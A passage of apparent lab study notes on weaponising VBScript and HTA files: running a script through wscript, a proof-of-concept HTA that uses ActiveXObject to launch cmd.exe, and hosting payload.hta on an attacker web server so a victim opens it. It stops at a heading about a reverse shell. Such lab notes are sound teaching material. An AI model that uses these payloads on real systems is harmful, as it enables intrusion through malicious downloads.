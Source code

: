the `1` stand for see the window

```bash
wscript /e:VBScript blacklisted.txt
```

![[Pasted image 20241104222136.png]]


# An HTML Application - HTA 
HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

In the following example, we will use an [ActiveXObject](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.

```javascript
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,


```shell-session
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.


![[Pasted image 20241106223456.png]]

Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.

![[Pasted image 20241106223649.png]]



## HTA Reverse Connection

We can create a reverse shell payload as follows,
